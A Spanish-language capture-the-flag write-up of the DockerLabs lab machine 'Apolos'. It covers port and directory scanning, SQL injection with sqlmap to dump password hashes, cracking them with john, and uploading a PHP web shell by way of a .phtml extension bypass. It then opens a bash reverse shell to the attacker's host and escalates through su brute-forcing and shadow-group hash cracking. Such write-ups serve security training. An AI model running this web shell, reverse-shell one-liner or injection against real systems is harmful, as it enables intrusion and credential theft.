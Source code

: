 Máquina "Apolos" de [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio

![apolos](./img/apolos.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 15:43:53 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 15:43:53 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 15:44:01 2024 -- 1 IP address (1 host up) scanned in 8.48 seconds
```

Solo está abierto el puerto 80 y corre apache httpd.

###### Puerto 80:

![80](./img/apple.png)

Parece ser una página en la que podemos comprar.

Ahora un fuzzing con gobuster:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 5013]
/login.php            (Status: 200) [Size: 1619]
/register.php         (Status: 200) [Size: 1607]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 309] [--> http://172.17.0.2/vendor/]
Progress: 93087 / 882244 (10.55%)
===============================================================
Finished
===============================================================
```

Podemos registrarnos, por lo que simplemente nos creamos una cuenta y listo. Una vez registrados veremos esto:

![reg](./img/reg.png)

Si tocamos el boton de comprar ahora veremos una página en la que podemos comprar, pero lo que nos interesa es lo de buscar productos:
![buscar](./img/buscar.png)

este nos interesa porque funciona bien, pero si probamos en poner una inyección sql como `or 1=1-- -`, veremos que nos muestra los productos:

![sql](./img/sql.png)

Esto porque se ve que realiza una petición a la base de datos de manera insegura y 1 siempre es igual a 1, por lo que nos muestra los productos. Ahora que sabemos esto podemos usar `sqlmap`, para intentar leer la base de datos.

#### sqlmap:

Para usar sqlmap utilizaremos la request, por lo que abriremos el burpsuite, y capturaremos la petición al buscar un producto:

![burp](./img/burp.png)

La copiamos y la metemos en un archivo llamado request. Una vez hecho eso ejecutaremos sqlmap de la siguiente manera:

```css
sqlmap -r request --batch --dump
```

```css
+----+------------------------------------------+----------+
| id | password                                 | username |
+----+------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0 | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | test     |
| 4  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | maci     |
+----+------------------------------------------+----------+
```

Ahora usaremos `john` para crackear la contraseña de admin. Para esto nos la copiamos y lo metemos en un archivo llamado hash, luego de eso ejecutaremos john:

```css
john --wordlist=<wordlist> hash
```

Ahora tenemos la contraseña de admin: 0844575632

# INTRUSION

Ahora que tenemos el usuario y contraseña del usuario admin, iniciamos sesión y vamos a donde dice "Sección de Administración", entramos y tendremos un panel en el que podemos subir archivos al ir a "configuracion":

![admin](./img/ad.png)

Ahora subiremos un ".php" con el siguiente contenido:

```php
<?php
       system($_GET['cmd']);
?>
```

El problema es que al intentar subir un ".php" nos dice que no se pueden subir, por lo que buscaremos como bypasearlo para que lo suba igual. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload):

![tricks](./img/tricks.png)

Como vemos hay muchas formas, en mi caso me funcionó ".phtml", ahora vamos a `/uploads/` y ya veremos el archivo. Ahora solo nos queda escuchar con netcat en el puerto 443 y enviar esto desde el navegador:

```css
http://<ip>/uploads/cmd.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'
```

# ESCALADA DE PRIVILEGIOS

### www-data

Antes de continuar haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Luego de buscar un rato, la única manera de escalar es usando el script [su-bruteforce](https://github.com/carlospolop/su-bruteforce) con el mismo diccionario:

```css
./suBF.sh -u luisillo_o -w top12000.txt
```

esto demora unos 6 minutos pero finalmente encuentra la contraseña "19831983".

### Luisillo_o

Si ejecutamos `id` veremos que pertenecemos al grupo "shadow":

```css
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
```

por lo que si buscamos, hay una forma de escalar:

https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/

Una vez hecho todo tal cual como sale en la página, habremos escalado a root con la contraseña "rainbow2":

![root](./img/root.png)

Gracias por leer.